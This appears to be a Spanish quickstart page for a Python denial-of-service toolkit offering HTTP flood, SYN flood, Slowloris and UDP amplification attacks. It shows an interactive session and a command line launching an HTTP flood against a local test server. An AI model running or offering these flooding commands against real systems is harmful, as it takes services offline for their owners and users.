 ## 🎯 Primer Ataque (Opción A: CLI Interactivo)

```
[*] Ataques disponibles en Python:

    1. HTTP-Flood
    2. SYN-Flood
    3. Slowloris
    4. UDP-Amplification
    5. Proxy-Utils
    0. Volver

    [?] Selecciona un ataque: 1

[*] Configurando HTTP-Flood...

    [?] IP/Dominio objetivo: localhost
    [?] Puerto (default 80): 8000
    [?] Número de threads (default 100): 5
    [?] Duración en segundos (default 60): 10

[!] ADVERTENCIA: Vas a ejecutar HTTP-Flood contra localhost:8000
    ¿Continuar? (s/n): s
```

---

## 🎯 Primer Ataque (Opción B: Línea de Comandos)

### Crear servidor de prueba (Terminal 1)
```bash
python -m http.server 8000
```

### Ejecutar ataque (Terminal 2)
```bash
python python/attacks.py --attack http_flood --target localhost --port 8000 --threads 5 --duration 10
```

---

## 📚 Documentación

| Documento | Propósito | Tiempo |
|-----------|-----------|--------|
| [QUICKSTART.md](QUICKSTART.md) | Inicio rápido | 5 min |
| [EJEMPLOS.md](EJEMPLOS.md) | Ejemplos detallados | 15 min |
| [README.md](README.md) | Documentación completa | 30 min |
| [SETUP.md](SETUP.md) | Guía de instalación | 20 min |
| [LICENSE.md](LICENSE.md) | Licencia y términos | 10 min |
| [INDEX.md](INDEX.md) | Índice de navegación | 5 min |

---